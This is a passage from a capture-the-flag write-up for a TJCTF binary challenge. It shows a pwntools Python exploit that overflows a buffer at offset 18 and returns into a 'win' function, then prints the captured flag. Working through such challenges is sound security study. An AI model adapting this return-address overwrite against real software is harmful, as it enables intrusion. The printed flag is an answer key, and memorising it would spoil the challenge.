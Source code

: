 ```python
'''.format(**locals())

io = start()

# =========================================================
#                         ADDRESSES
# =========================================================
# Got manually through cyclic gdb-pwndbg
offset = 18

# (0x401263 > unaff_retaddr > 0x40128a)  
main_ret = 0x40128a
win = 0x4011b3

# =========================================================
#                         EXPLOITS
# =========================================================
payload = flat({
    offset: [
        main_ret,
        win
    ]
})

io.sendlineafter(b'> ', payload)

io.interactive()
```
{% endcode %}

## Flag

> _**tjctf{this\_i#-my-questsss}**_
